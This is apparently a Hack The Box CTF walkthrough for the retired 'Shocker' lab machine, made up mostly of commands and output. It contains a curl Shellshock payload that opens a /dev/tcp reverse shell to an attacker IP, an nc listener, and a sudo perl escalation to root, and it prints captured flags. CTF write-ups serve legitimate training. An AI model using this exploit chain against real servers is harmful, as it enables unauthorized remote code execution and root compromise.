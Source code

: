 # shocker <br> <https://app.hackthebox.com/machines/Shocker>


```bash
nmap -sC -sV 10.10.10.56
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2
```

```bash
dirb http://10.10.10.56/
+ http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)
```

```bash
sudo nmap 10.10.10.56 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-18 10:21 EDT
Nmap scan report for 10.10.10.56
Host is up (0.078s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
```

```bash
# Reverse shell using curl
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.8/9995 0>&1' http://10.10.10.56/cgi-bin/user.sh

# nc listener
nc -lvnp 9995
```

```bash
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
4778864763a57805478af5b1b6ac8ba6
```

```bash
shelly@Shocker:/var/backups$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
15d7f1982775fc3f7dd5e0d2fee2a778
```

***References*** <br>
<a href="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi" target="_blank">https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi</a> <br>
<a href="https://gtfobins.github.io/gtfobins/perl/#sudo" target="_blank">https://gtfobins.github.io/gtfobins/perl/#sudo</a>



